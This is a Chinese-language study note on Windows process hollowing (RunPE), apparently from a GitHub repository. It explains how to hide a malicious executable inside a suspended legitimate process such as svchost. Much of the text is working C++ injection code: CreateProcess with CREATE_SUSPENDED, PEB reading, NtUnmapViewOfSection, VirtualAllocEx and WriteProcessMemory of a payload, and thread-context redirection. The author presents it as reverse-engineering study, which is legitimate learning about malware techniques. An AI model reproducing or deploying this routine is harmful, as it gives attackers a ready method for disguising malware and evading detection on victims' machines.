


# PROCESS HOLLOWING (A.K.A PROCESS REPLACEMENT AND RUNPE)

## 介绍

> 'Process hollowing is yet another tool in the kit of those who seek to hide the presence of a process'. 

效果就是套一个傀儡进程的壳来执行我们希望执行的其他PE文件, 用来隐藏恶意代码. 从外部看是无害的正常程序
, 但是那个程序已经被寄生了, 所以可以有效隐藏恶意进程的存在. 干脆叫Parasitic Injection 算了.

过程简单来说就是, 启动器随便创建并挂起一个进程(例如`svchost.exe`), 清空中挂起的无害进程的内存空间, 然后填入恶意代码运行. (如下图, 恶意PE文件B.exe在无害软件A.exe外壳下运行)




### 简略过程

1. 创建挂起的外壳进程, 例如`svchost`一般进程. 该程序通过调用`CreateProcess`并将流程创建标志设置为`CREATE_SUSPENDED(0x00000004)`.
2. 通过外壳进程的`PEB`来获取进程的内存空间地址. (`PEB`里有`imagebase`内存空间基址信息)
	* 要自己写函数接口提取内存空间`ReadRemotePEB` and `ReadRemoteImage`.
	* PEB的结构直接复制
3. 用恶意的有效载荷来替换合法文件的内容
	* 调用`NtUnmapViewOfSection`, 给合法进程挖个洞
	* 正常加载恶意PE文件到内存空间`CreateFile`+`ReadFile`
	* 把内存空间里的恶意软件写到合法进程的空洞里. `VirtualAllocEx`+`WriteProcessMemory`(写入PE头和循环写入后续section)
4. 恢复现场
	* 设置线程上下文`SetThreadContext`
	* 恢复`entrypoint`
	* `ResumeThread`来恢复挂起的线程

**查询进程PEB信息:**

这块的代码我感觉可以直接复制, 变化小, 就当做内置的API好了

1. `FindRemotePEB`加载"ntdll.dll", 使用`NtQueryInformationProcess`. 返回目标进程句柄`pProcessInfo->hProcess`对应的PEB基址.
2. `ReadRemotePEB`, 使用`FindRemotePEB`找到的PEB基址, 使用`ReadProcessMemory`把基址后面的所有PEB信息读取出来, 返回一个PEB结构.


## 关键代码注释

本文对应的demo, 可以以`svchost`为傀儡进程, 注入`helloworld.exe`. 第二版创建的傀儡进程是普通程序(`Fake.exe`), 注入的进程是恶意荷载(`Real.exe`), 源码里自己改路径和名称.
 

### 创建挂起的进程

Creating The Process The target process must be created in the suspended state. This can be achieved by passing the `CREATE_SUSPENDED` flag to the `CreateProcess()` function via the `dwCreationFlags` parameter.

```
void CreateHollowedProcess(char *HollowedProcess, char *pSourceFile)
{
	// 挂起状态创建进程
	// 指定窗口工作站，桌面，标准句柄以及创建时进程主窗口的外观的结构体
	LPSTARTUPINFOA pStartupInfo = new STARTUPINFOA();	//用于指定新进程的主窗口特性的一个结构
	LPPROCESS_INFORMATION pProcessInfo = new PROCESS_INFORMATION();	//该结构返回有关新进程及其主线程的信息
	CreateProcessA
	(
		0,
		HollowedProcess,
		0,
		0,
		0,
		CREATE_SUSPENDED,	// 以挂起状态创建进程
		0,
		0,
		pStartupInfo,
		pProcessInfo	// 句柄信息 pProcessInfo->hProcess
	);
```

Once the process is created its memory space can be modified using the handle provided by the `hProcess` member of the `PROCESS_INFORMATION` structure.


### 获取模块信息 (模块基址)

读取傀儡进程的PEB的地址, 也就能计算`PEB+0x08`得到进程的基地址`imagebase`.

```
	// gather information(image base) from PEB
	PPEB pPEB = ReadRemotePEB(pProcessInfo->hProcess);	// 声明在PE.cpp里
	cout << "Image base address of PEB"<<pPEB->ImageBaseAddress<< endl;
```

### 取消进程映像

上面已经定位到傀儡进程的基地址了, 就可以使用`NtUnmapViewOfSection`取消映像空间.

```
	// carving out process to create hollow
	FARPROC fpNtUnmapViewOfSection = GetProcAddress(GetModuleHandleA("ntdll"), "NtUnmapViewOfSection");	// 最主要的 hollow进程的函数
	_NtUnmapViewOfSection NtUnmapViewOfSection =
		(_NtUnmapViewOfSection)fpNtUnmapViewOfSection;
	DWORD dwResult = NtUnmapViewOfSection(pProcessInfo->hProcess, pPEB->ImageBaseAddress);	//目标进程，carving起始地址（直接imagebase开始）
```

这样就得到了一个外壳, 可以打开恶意荷载, 把恶意PE文件复制到空洞里运行了.

### 打开恶意PE文件
打开文件, 并且获取PE文件相关的数据, 比如PE头数据, 包括后续的文件大小, section数等信息.

```
	//打开恶意荷载
	HANDLE hFile = CreateFile
	(
		pSourceFile,	//helloworld.exe
		GENERIC_READ,
		0,
		0,
		OPEN_ALWAYS,
		0,
		0
	);

	// 读取文件的data到bBuffer(包括计算文件大小，开辟buffer)
	WORD dwSize = GetFileSize(hFile, 0);
	PBYTE pBuffer = new BYTE[dwSize];	//开辟空间
	DWORD dwBytesRead = 0;
	ReadFile(hFile, pBuffer, dwSize, &dwBytesRead, 0);	//读取PE文件的data到pBuffer
	PLOADED_IMAGE pSourceImage = GetLoadedImage((DWORD)pBuffer);	//获取PE文件映像空间
	PIMAGE_NT_HEADERS32 pSourceHeaders = GetNTHeaders((DWORD)pBuffer);	//获取PE NT头
```

### 分配空间, 将读取到的PE数据写入空洞

```
	// Alloc Memory
	LPVOID AllocMemory =VirtualAllocEx
	(
		pProcessInfo->hProcess,
		pPEB->ImageBaseAddress,
		pSourceHeaders->OptionalHeader.SizeOfImage,
		MEM_COMMIT | MEM_RESERVE,
		PAGE_EXECUTE_READWRITE
	);

	// Write Process Memory
	WriteProcessMemory(pProcessInfo->hProcess, AllocMemory, pBuffer, pSourceHeaders->OptionalHeader.SizeOfHeaders, NULL);	//写入文件头 SizeOfHeaders

	for (DWORD x = 0; x < pSourceImage->NumberOfSections; x++)	// 写入各节区
	{
		if (!pSourceImage->Sections[x].PointerToRawData)
			continue;
		PVOID pSectionDestination =
			(PVOID)((DWORD)pPEB->ImageBaseAddress + pSourceImage->Sections[x].VirtualAddress);
		printf("Writing %s section to 0x%p\r\n", pSourceImage->Sections[x].Name, pSectionDestination);	// 打印写入的各节
		WriteProcessMemory
		(
			pProcessInfo->hProcess,
			pSectionDestination,
			&pBuffer[pSourceImage->Sections[x].PointerToRawData],
			pSourceImage->Sections[x].SizeOfRawData,
			0
		);
	}
```

### 修复代码入口+环境

```
	DWORD dwEntrypoint = (DWORD)pPEB->ImageBaseAddress +
		pSourceHeaders->OptionalHeader.AddressOfEntryPoint;	// 新的程序入口点 其实就是把原来的imagebase换乘外壳进程的imagebase
		
	//每个线程内核对象都维护着一个CONTEXT结构，里面保存了线程运行的状态，
	//使得CPU可以记得上次运行该线程运行到哪里了，该从哪里开始运行。
	LPCONTEXT pContext = new CONTEXT();
	pContext->ContextFlags = CONTEXT_INTEGER;
	GetThreadContext(pProcessInfo->hThread, pContext);	// 获取傀儡程序上下文
	pContext->Eax = dwEntrypoint;	//32位模式下的eax寄存器，保存的值为程序的入口点地址，即镜像加载基址+镜像内偏移
	//pContext->Rcx = dwEntryPoint;	//64模式下Rcx寄存器, 保存程序的EntryPoint
	SetThreadContext(pProcessInfo->hThread, pContext);	//设置上下文，恢复线程。
```
### 唤醒进程

```
ResumeThread(pProcessInfo->hThread);
```

## 补充

### 注意点

1. m0n0ph1
	* 写了重定位
	* `PE.h`里写了peb的结构和一些pe文件加载的API(例如可选头, nt头)
2. 逆向工程核心原理
	* 连PEB结构都没写, 是最简略的, 
	* 包括PE头的一些API, 都只写需要的
3. 自写版本Version 1.0
	* 不需要重定位
	* 也不需要修改头
	* 但有问题 只能打开m0n0ph1给的`helloworld.exe`, 其余的会报错
	* 可能原因是创建的`svchost`进程和PE文件不适配, 换掉进程名就行
4. Version 2.0
	* 相比1.0, 只是替换了外壳进程, 而不是系统进程'svchost'.
5. Version 3.0
	* 前面的两个版本有bug, 在获取目标PE文件有问题好像, nt头可选头有问题
	* 重定位确实不需要

### 适用范围

1. win7后只能向普通程序进程hollowing(计算器, 写字板这种程序之外的程序)
2.  有点奇怪, 就是第一版的代码, 创建`scvhost`进程的那个, 只能让给的例子`helloworld.exe`完成注入, 其他的程序都会报错.

### 缺点

1. 进程里还是能看到外壳下运行的进程

## Reference Resources

1. github上的一个攻击样例. 介绍非常详细, 包括peb啥的, 主要参考这个. [https://github.com/m0n0ph1/Process-Hollowing](https://github.com/m0n0ph1/Process-Hollowing)
2. 看雪论坛上的一个样本实现, 也是参考m0n0ph1的, 好像用了更好的伪装方式.[https://bbs.pediy.com/thread-224706-1.htm](https://bbs.pediy.com/thread-224706-1.htm) 
3. `Rebhip`恶意软件便是利用了这种注入技巧
4. github上的另一个攻击样例, 没怎么看但特别短, 特别是在PEB这块[https://github.com/kernelm0de/RunPE-ProcessHollowing/blob/master/main.cpp](https://github.com/kernelm0de/RunPE-ProcessHollowing/blob/master/main.cpp)
5. 这个原理和注释非常清楚, **包括代码里为什么会有重定位和恢复环境的操作, 因为代码是把PE文件手动从硬盘里加载到内存中运行, 所以需要模拟PE加载器**[https://bbs.pediy.com/thread-268005-1.htm](https://bbs.pediy.com/thread-268005-1.htm)
6. 结合上一条, <逆向工程核心原理>, 56章的使用的映像切换的示例程序调试(有空看一下) 逆向工程核心原理的代码非常简洁有用!

# 知识补充

## PEB结构(文档化进程环境块)

> 微软的参考文档, 但结构不是很详细 [https://docs.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb](https://docs.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb)<br>
> 详细结构 [https://blog.csdn.net/qq_31694351/article/details/51532581](https://blog.csdn.net/qq_31694351/article/details/51532581)

### 结构

第一次接触是在反调试那块, 每个进程有PEB结构(文档化进程环境块), 第二个字节是 `BeingDebugged`属性 

```
typedef struct _PEB 
{ 
  BOOLEAN                 InheritedAddressSpace;
  BOOLEAN                 ReadImageFileExecOptions;	// 对应微软文档里的Reserved1[2]
  BOOLEAN                 BeingDebugged;	// 0x02
  BOOLEAN                 Spare;
  HANDLE                  Mutant;
  PVOID                   ImageBaseAddress;	// Reserved3[2] 0x08
  PPEB_LDR_DATA           LoaderData;	//0x0c
  PRTL_USER_PROCESS_PARAMETERS ProcessParameters;
  PVOID                   SubSystemData;
  PVOID                   ProcessHeap;
  PVOID                   FastPebLock;
  PPEBLOCKROUTINE         FastPebLockRoutine;
  PPEBLOCKROUTINE         FastPebUnlockRoutine;
  ULONG                   EnvironmentUpdateCount;
  PPVOID                  KernelCallbackTable;
  PVOID                   EventLogSection;
  PVOID                   EventLog;
  PPEB_FREE_BLOCK         FreeList;
  ULONG                   TlsExpansionCounter;
  PVOID                   TlsBitmap;
  ULONG                   TlsBitmapBits[0x2];
  PVOID                   ReadOnlySharedMemoryBase;
  PVOID                   ReadOnlySharedMemoryHeap;
  PPVOID                  ReadOnlyStaticServerData;
  PVOID                   AnsiCodePageData;
  PVOID                   OemCodePageData;
  PVOID                   UnicodeCaseTableData;
  ULONG                   NumberOfProcessors;
  ULONG                   NtGlobalFlag;
  BYTE                    Spare2[0x4];
  LARGE_INTEGER           CriticalSectionTimeout;
  ULONG                   HeapSegmentReserve;
  ULONG                   HeapSegmentCommit;
  ULONG                   HeapDeCommitTotalFreeThreshold;
  ULONG                   HeapDeCommitFreeBlockThreshold;
  ULONG                   NumberOfHeaps;
  ULONG                   MaximumNumberOfHeaps;
  PPVOID                  *ProcessHeaps;
  PVOID                   GdiSharedHandleTable;
  PVOID                   ProcessStarterHelper;
  PVOID                   GdiDCAttributeList;
  PVOID                   LoaderLock;
  ULONG                   OSMajorVersion;
  ULONG                   OSMinorVersion;
  ULONG                   OSBuildNumber;
  ULONG                   OSPlatformId;
  ULONG                   ImageSubSystem;
  ULONG                   ImageSubSystemMajorVersion;
  ULONG                   ImageSubSystemMinorVersion;
  ULONG                   GdiHandleBuffer[0x22];
  ULONG                   PostProcessInitRoutine;
  ULONG                   TlsExpansionBitmap;
  BYTE                    TlsExpansionBitmapBits[0x80];
  ULONG                   SessionId; 
} PEB, *PPEB;
```

### PEB->ImageBaseAddress
`PEB+0x08`, `ImageBaseAddress`保存的是进程映像基址，就是PE头文件中的`IMAGE_OPTIONAL_HEADER->ImageBase`对应的值. (Process Hollowing)

* 对于EXE来说，默认的`ImageBase`为`0x400000`
* 对于DLL来说，是`0x10000000`

但存在重定位的现象, 所以基地址可能不是默认地址.

复习一遍, exe文件不太可能会发生重定位, 除非开了地址随机化保护. 因为一个进程一般就一个exe模块. 但dll文件会发生重定位, 因为一个exe文件, 进程打开的时候, 大都需要加载复数的dll文件, 不可能都加载到同一个基地址.

### PEB->Ldr
`PEB+0x0C`, 用来找进程加载的dll文件地址. (shellcode)

```
typedef struct _PEB_LDR_DATA {
  BYTE       Reserved1[8];    /*0x00*/
  PVOID      Reserved2[3];    /*0x08*/
  LIST_ENTRY InMemoryOrderModuleList;    /*0x14*/
} PEB_LDR_DATA, *PPEB_LDR_DATA;
```

### 作用
#### Process Hollowing
在这里的话, 主要是通过 **`hProcess->PEB->ImageBase`** 的路径, 外部启动器进程能根据目标进程句柄找到**目标进程基址**, 然后卸载掉内存里的模块. 保证卸载掉的是**整个模块在内存里的空间**, 并且后续`VirtualAlloc()`也需要从**最开始**分配空间.

而像`CreatRemoteThread()`, 要求没那么严格, 只需要在目标进程空间内随便找块给新`Thread`的地就行. 所以只需要搜索到`hProcess`就行.

#### Write Shellcode
写shellcode的时候也用到了PEB结构, 但这里的获取比较简单, 直接在进程的FS寄存器里就存着PEB的基址, `fs:[0x30]`.


## process hollowing为什么不需要重定位
Process hollowing和PE加载器类似, 也是把硬盘上的PE文件打开手动加载到内存中运行, 但是不需要进行加载导入表IAT和重定位.

### PE加载器

1. 申请一块内存, 将PE文件由硬盘加载到内存中, `CreateFileA()`, `ReadFile()`等, 和上面的操作相同
2. 修复重定位, 这个比较简单, 在原来的RVA的基础上减去默认的imagebase(exe和dll, 分别是0x00400000和0x1000啥的), 再加上实际的基址.
3. 加载导入表
	* 先根据IDT里的dll名称用`LoadLibrary()`加载对应的dll
	* 然后到对应dll的导入表项/INT中，中用GetProcAddress()获取导入的函数地址，并写到导入表的相应位置
4. 调到EntryPoint执行.


Process Hollowing使用了`CreateProcess()`来挂起创建一个傀儡进程，当恢复线程执行后还会进行一些进程初始化的工作，所以不用我们手工的去填IAT表和进行重定位。

